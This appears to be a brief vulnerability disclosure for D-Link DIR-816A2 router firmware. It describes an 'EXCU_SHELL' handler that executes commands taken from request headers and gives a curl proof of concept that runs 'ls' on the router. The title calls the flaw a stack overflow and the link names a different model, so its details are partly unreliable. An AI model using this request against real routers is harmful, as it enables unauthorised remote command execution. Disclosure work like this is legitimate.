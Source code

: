 # DIR-816A2_FWv1.10CNB05_R1B011D88210.img Stack overflow vulnerability

## Overview

- Manufacturer's address：http://www.dlink.com.cn/
- Firmware download address ： http://www.dlink.com.cn/techsupport/ProductInfo.aspx?m=DIR-823G

## Affected version

Below is the latest firmware

![](img/1.png#center)

## Vulnerability details

The handler for the EXCU_SHEL path will detect the command in the request and execute it.

![](img/2.png#center)


## Vulnerability verify

![](img/3.png#center)


## POC

```
curl http://192.168.0.1/EXCU_SHELL -H 'Command1: ls' -H 'Confirm1: apply'
```
